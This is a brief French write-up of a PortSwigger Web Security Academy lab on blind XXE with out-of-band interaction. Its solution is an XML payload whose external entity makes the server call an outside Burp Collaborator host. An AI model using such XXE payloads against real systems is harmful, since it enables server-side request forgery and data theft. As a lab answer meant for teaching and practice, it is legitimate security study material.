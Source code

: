 # Lab

https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

## Solution

On peut utiliser le même payload que pour les SSRF via XXE :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://h1jnu19gtdo25g3gtrpey32fn6txhn5c.oastify.com/"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
